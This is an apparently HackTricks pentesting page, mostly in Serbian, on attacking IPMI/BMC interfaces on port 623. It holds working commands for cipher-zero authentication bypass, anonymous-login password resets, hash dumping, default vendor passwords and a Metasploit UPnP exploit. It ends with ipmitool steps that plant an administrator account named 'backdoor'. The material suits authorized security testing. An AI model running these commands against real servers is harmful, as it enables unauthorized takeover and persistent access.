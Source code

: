 # 623/UDP/TCP - IPMI

## 623/UDP/TCP - IPMI

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Deepen your expertise in **Mobile Security** with 8kSec Academy. Master iOS and Android security through our self-paced courses and get certified:

{% embed url="https://academy.8ksec.io/" %}


## Basic Information

### **Overview of IPMI**

**[Intelligent Platform Management Interface (IPMI)](https://www.thomas-krenn.com/en/wiki/IPMI_Basics)** nudi standardizovan pristup za daljinsko upravljanje i nadgledanje računarskih sistema, nezavisno od operativnog sistema ili stanja napajanja. Ova tehnologija omogućava sistem administratorima da upravljaju sistemima na daljinu, čak i kada su isključeni ili neodgovaraju, i posebno je korisna za:

- Konfiguracije pre pokretanja OS-a
- Upravljanje isključenjem
- Oporavak od sistemskih grešaka

IPMI je sposoban da nadgleda temperature, napone, brzine ventilatora i napajanja, uz pružanje informacija o inventaru, pregled hardverskih logova i slanje upozorenja putem SNMP-a. Osnovni zahtevi za njegov rad su izvor napajanja i LAN konekcija.

Od svog uvođenja od strane Intela 1998. godine, IPMI je podržan od strane brojnih dobavljača, poboljšavajući mogućnosti daljinskog upravljanja, posebno sa podrškom verzije 2.0 za serijsku komunikaciju preko LAN-a. Ključne komponente uključuju:

- **Baseboard Management Controller (BMC):** Glavni mikro-kontroler za IPMI operacije.
- **Komunikacione magistrale i interfejsi:** Za internu i eksternu komunikaciju, uključujući ICMB, IPMB i razne interfejse za lokalne i mrežne konekcije.
- **IPMI Memorija:** Za čuvanje logova i podataka.

![https://blog.rapid7.com/content/images/post-images/27966/IPMI-Block-Diagram.png#img-half-right](https://blog.rapid7.com/content/images/post-images/27966/IPMI-Block-Diagram.png#img-half-right)

**Podrazumevani port**: 623/UDP/TCP (Obično je na UDP-u, ali može biti i na TCP-u)

## Enumeration

### Discovery
```bash
nmap -n -p 623 10.0.0./24
nmap -n-sU -p 623 10.0.0./24
use  auxiliary/scanner/ipmi/ipmi_version
```
Možete **identifikovati** **verziju** koristeći:
```bash
use auxiliary/scanner/ipmi/ipmi_version
nmap -sU --script ipmi-version -p 623 10.10.10.10
```
### IPMI Ranljivosti

U oblasti IPMI 2.0, značajna sigurnosna slabost otkrivena je od strane Dana Farmera, izlažući ranjivost kroz **cipher type 0**. Ova ranjivost, dokumentovana u detalje na [istraživanju Dana Farmera](http://fish2.com/ipmi/cipherzero.html), omogućava neovlašćen pristup sa bilo kojom lozinkom pod uslovom da je ciljana validna korisnička nalog. Ova slabost je pronađena kod različitih BMC-ova proizvođača kao što su HP, Dell i Supermicro, sugerišući široko rasprostranjen problem unutar svih IPMI 2.0 implementacija.

### **IPMI Zaobilaženje Autentifikacije putem Cipher 0**

Da bi se otkrila ova slabost, može se koristiti sledeći Metasploit pomoćni skener:
```bash
use auxiliary/scanner/ipmi/ipmi_cipher_zero
```
Eksploatacija ove greške je moguća pomoću `ipmitool`, kao što je prikazano u nastavku, što omogućava listanje i modifikaciju korisničkih lozinki:
```bash
apt-get install ipmitool # Installation command
ipmitool -I lanplus -C 0 -H 10.0.0.22 -U root -P root user list # Lists users
ipmitool -I lanplus -C 0 -H 10.0.0.22 -U root -P root user set password 2 abc123 # Changes password
```
### **IPMI 2.0 RAKP Autentifikacija Udaljeno Preuzimanje Hash-a Lozinke**

Ova ranjivost omogućava preuzimanje zasoljenih hash-ova lozinki (MD5 i SHA1) za bilo koje postojeće korisničko ime. Da biste testirali ovu ranjivost, Metasploit nudi modul:
```bash
msf > use auxiliary/scanner/ipmi/ipmi_dumphashes
```
### **IPMI Anonymous Authentication**

Podrazumevana konfiguracija u mnogim BMC-ima omogućava "anonimni" pristup, koji se karakteriše nul korisničkim imenom i lozinkom. Ova konfiguracija se može iskoristiti za resetovanje lozinki imenovanih korisničkih naloga koristeći `ipmitool`:
```bash
ipmitool -I lanplus -H 10.0.0.97 -U '' -P '' user list
ipmitool -I lanplus -H 10.0.0.97 -U '' -P '' user set password 2 newpassword
```
### **Supermicro IPMI Lozinke u Čistom Tekstu**

Kritična dizajnerska odluka u IPMI 2.0 zahteva skladištenje lozinki u čistom tekstu unutar BMC-a u svrhe autentifikacije. Skladištenje ovih lozinki od strane Supermicro-a na mestima kao što su `/nv/PSBlock` ili `/nv/PSStore` postavlja značajne bezbednosne brige:
```bash
cat /nv/PSBlock
```
### **Supermicro IPMI UPnP Ranljivost**

Uključivanje UPnP SSDP slušatelja u Supermicro-ovom IPMI firmveru, posebno na UDP portu 1900, uvodi ozbiljan bezbednosni rizik. Ranljivosti u Intel SDK za UPnP uređaje verzije 1.3.1, kako je detaljno opisano u [Rapid7-ovom otkriću](https://blog.rapid7.com/2013/01/29/security-flaws-in-universal-plug-and-play-unplug-dont-play), omogućavaju pristup root-u BMC-u:
```bash
msf> use exploit/multi/upnp/libupnp_ssdp_overflow
```
### Brute Force

**HP nasumično generiše podrazumevanu lozinku** za svoj **Integrated Lights Out (iLO)** proizvod tokom proizvodnje. Ova praksa se razlikuje od drugih proizvođača, koji obično koriste **statične podrazumevane akreditive**. Sažetak podrazumevanih korisničkih imena i lozinki za različite proizvode je dat u nastavku:

- **HP Integrated Lights Out (iLO)** koristi **fabricki nasumično generisanu 8-znamenkastu string** kao svoju podrazumevanu lozinku, pokazujući viši nivo sigurnosti.
- Proizvodi kao što su **Dellov iDRAC, IBM-ov IMM** i **Fujitsu-ov Integrated Remote Management Controller** koriste lako pogađajuće lozinke kao što su "calvin", "PASSW0RD" (sa nulom) i "admin" redom.
- Slično tome, **Supermicro IPMI (2.0), Oracle/Sun ILOM** i **ASUS iKVM BMC** takođe koriste jednostavne podrazumevane akreditive, pri čemu "ADMIN", "changeme" i "admin" služe kao njihove lozinke.


## Accessing the Host via BMC

Administrativni pristup Kontroleru upravljanja matičnom pločom (BMC) otvara različite puteve za pristup operativnom sistemu hosta. Jednostavan pristup uključuje iskorišćavanje KVM funkcionalnosti BMC-a. To se može uraditi ili ponovnim pokretanjem hosta u root shell putem GRUB-a (koristeći `init=/bin/sh`) ili pokretanjem sa virtuelnog CD-ROM-a postavljenog kao disk za oporavak. Ove metode omogućavaju direktnu manipulaciju diskom hosta, uključujući umetanje backdoor-a, ekstrakciju podataka ili bilo koje potrebne radnje za procenu sigurnosti. Međutim, ovo zahteva ponovno pokretanje hosta, što je značajan nedostatak. Bez ponovnog pokretanja, pristup aktivnom hostu je složeniji i varira u zavisnosti od konfiguracije hosta. Ako fizička ili serijska konzola hosta ostane prijavljena, može se lako preuzeti putem KVM ili serial-over-LAN (sol) funkcionalnosti BMC-a koristeći `ipmitool`. Istraživanje iskorišćavanja zajedničkih hardverskih resursa, kao što su i2c magistrala i Super I/O čip, je oblast koja zahteva dalju istragu.

## Introducing Backdoors into BMC from the Host

Nakon kompromitovanja hosta opremljenog BMC-om, **lokalni BMC interfejs se može iskoristiti za umetanje backdoor korisničkog naloga**, stvarajući trajnu prisutnost na serveru. Ovaj napad zahteva prisustvo **`ipmitool`** na kompromitovanom hostu i aktivaciju podrške za BMC drajver. Sledeće komande ilustruju kako se novi korisnički nalog može ubrizgati u BMC koristeći lokalni interfejs hosta, što zaobilazi potrebu za autentifikacijom. Ova tehnika je primenljiva na širok spektar operativnih sistema uključujući Linux, Windows, BSD, pa čak i DOS.
```bash
ipmitool user list
ID  Name        Callin  Link Auth    IPMI Msg  Channel Priv Limit
2  ADMIN            true    false      false      Unknown (0x00)
3  root            true    false      false      Unknown (0x00)

ipmitool user set name 4 backdoor
ipmitool user set password 4 backdoor
ipmitool user priv 4 4
ipmitool user list
ID  Name        Callin  Link Auth    IPMI Msg  Channel Priv Limit
2  ADMIN            true    false      false      Unknown (0x00)
3  root            true    false      false      Unknown (0x00)
4  backdoor        true    false      true      ADMINISTRATOR
```
## Shodan

* `port:623`

## References

* [https://blog.rapid7.com/2013/07/02/a-penetration-testers-guide-to-ipmi/](https://blog.rapid7.com/2013/07/02/a-penetration-testers-guide-to-ipmi/)


<figure><img src="/.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Produbite svoje znanje o **Mobilnoj Bezbednosti** sa 8kSec Akademijom. Savladajte iOS i Android bezbednost kroz naše kurseve koji se mogu pratiti sopstvenim tempom i dobijite sertifikat:

{% embed url="https://academy.8ksec.io/" %}


{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podrška HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
